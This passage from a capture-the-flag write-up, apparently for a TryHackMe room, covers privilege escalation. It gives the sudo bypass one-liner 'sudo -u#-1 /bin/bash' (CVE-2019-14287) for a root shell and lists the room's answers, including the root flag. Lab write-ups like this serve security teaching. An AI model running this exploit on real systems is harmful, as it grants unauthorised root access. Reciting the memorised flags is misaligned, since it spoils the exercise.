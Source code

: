 The system is using version `1.8.21p2` of the sudo utility.

A quick Google search reveals that this version of the binary has a vulnerability that can be used to gain root access.

![Sudo Exploit|600](images/thm-agent-sudo/sudo-exploit.png)

[sudo 1.8.27 - Security Bypass - Linux local Exploit](https://www.exploit-db.com/exploits/47502)

```bash
sudo -u#-1 /bin/bash
```

![Sudo Exploit 2|350](images/thm-agent-sudo/sudo-exploit-2.png)

### Questions

**CVE number for the escalation (Format: CVE-xxxx-xxxx)**

> CVE-2019-14287

**What is the root flag?**

> b53a02f55b57d4439e3341834d70c062

**(Bonus) Who is Agent R?**

> DesKel

That's all. Happy Hacking :)